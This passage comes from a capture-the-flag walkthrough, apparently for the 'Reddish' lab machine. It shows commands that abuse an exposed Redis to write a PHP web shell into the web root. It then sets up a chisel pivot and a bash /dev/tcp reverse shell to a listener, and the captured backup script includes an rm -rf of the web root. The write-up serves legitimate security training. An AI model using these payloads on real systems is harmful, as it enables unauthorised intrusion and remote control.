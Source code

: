 ```bash
redis-cli -h localhost -p 6379
flushall
set shell "<? system($_REQUEST['cmd']); ?>"
config set dbfilename shell.php
config set dir /var/www/html
save

#the machine automatically cleans up the file after a while, just type save again
```

Now we visit the site with cmd parameter set to whoami; it worked:

![image.png]({{ site.baseurl }}/assets/reddish/image%204.png)

Let’s capture the request on burp so it’s easier to send commands. Upon trying to set up a reverse shell, we realised this machine cannot talk to our network.

```bash
ping -c1 10.10.14.132  #no result
```

However, we can talk to the webshell from our inital foothold; let’ start a local pivot.

![image.png]({{ site.baseurl }}/assets/reddish/image%205.png)

On the webshell

```bash

pivot host:
/tmp/chisel client 10.10.14.132:8110 9110:127.0.0.1:7001

#client is at first IP:PORT, anything sent to webshell localhost to port 9110 will be forwarded to client's 7001

attack host:
nc -lnvp 7001

cmd:
bash -c "bash -i >& /dev/tcp/172.19.0.4/9110 0>&1"  #Ctrl+U to url-encode it
```

We now have a www-data shell. Let’s check in the / dir to see if there’s anything unusual. We see a backup directory, upon catting it

```bash
cat backup.sh

result:
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```
